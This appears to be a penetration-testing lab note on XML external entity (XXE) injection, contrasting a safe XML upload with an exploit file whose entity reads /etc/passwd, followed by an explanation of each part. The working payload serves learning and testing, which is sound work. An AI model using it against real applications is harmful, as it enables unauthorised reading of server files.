

# Web App - XXE

> - [XXE (XML external entity) injection | AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/xxe-xml-external-entity-injection)
> - [PayloadsAllTheThings - XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

➡️ **XML External Entity** (**XXE**) injection is a security vulnerability that occurs when an application processes XML input containing references to external entities without proper validation.

---

##  XXE - External Entities Injection

```bash
cd $HOME/peh/labs/user-content
	xxe-exploit.xml
	xxe-safe.xml

cat xxe-safe.xml

<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>

cat xxe-exploit.xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```

- Upload `xxe-safe.xml` and check the result.
- Try `xxe-exploit.xml`
  - **XML Declaration & DOCTYPE**: Declares an XML document and defines an external entity
  - **Entity Definition**: The external entity `xxe` is set to read the file `/etc/passwd`
  - **Usage in XML**: The entity is referenced in the `<user>` tag
  - **Result**: If vulnerable, the XML parser includes the file content in the output



---

